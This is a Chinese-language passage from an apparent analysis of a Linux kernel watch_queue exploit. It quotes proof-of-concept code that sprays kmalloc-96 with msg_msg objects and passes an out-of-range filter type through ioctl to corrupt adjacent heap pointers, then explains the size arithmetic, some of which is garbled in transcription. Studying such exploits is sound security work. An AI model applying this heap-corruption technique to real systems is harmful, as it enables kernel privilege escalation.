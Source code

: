   
根据poc  
```
do {
   ntries++;
 
   filter->nr_filters = nfilters;
   for (int i = 0; i < (nfilters - 1); i++) {  // choose kmalloc-96
     filter->filters[i].type = 1;
   }
 
   // Set 1 bit oob to 1, hopefully we overwrite a msg_msg.mlist.next which is not 2k aligned
   filter->filters[nfilters - 1].type = 0x30a; // 0x300 -> 96 bytes oob, 0xa -> 2**10 == 1024
 
   if (pipe2(fds, O_NOTIFICATION_PIPE) == -1) {
     perror("pipe2()");
     exit(1);
   }
 
   // Spray kmalloc-96
   spray_msgmsg();
   delete_msgmsg(MSGMSG_FREE_IDX_1, PRIMARY_SIZE, MTYPE_PRIMARY); // kmalloc
   delete_msgmsg(MSGMSG_FREE_IDX_0, PRIMARY_SIZE, MTYPE_PRIMARY); // memdup
 
   // Filter go
   if (ioctl(fds[0], IOC_WATCH_QUEUE_SET_FILTER, filter) < 0) {
     perror("ioctl(IOC_WATCH_QUEUE_SET_FILTER)");
     goto err;
   }
 
   check_corruption();
 
   if (corrupted_idx != -1)
     break;
 
   cleanup_msgmsg();
 } while (ntries < CORRUPT_MSGMSG_TRIES);
```  
  
  
可以看到struct watch_notification_filter 是直接从用户态传进来的。sizeof(wfilter->type_filter) BITS_PER_LONG = 1664 = 1024， sizeof(wfilter->type_filter) 8 = 168 = 128；0x30a = 778;  
```
struct callback_head {
    struct callback_head *next;
    void (*func)(struct callback_head *head);
} __attribute__((aligned(sizeof(void *))));
#define rcu_head callback_head
```  
  
  
struct watch_type_filter 占 16 个字节。  
  
   
  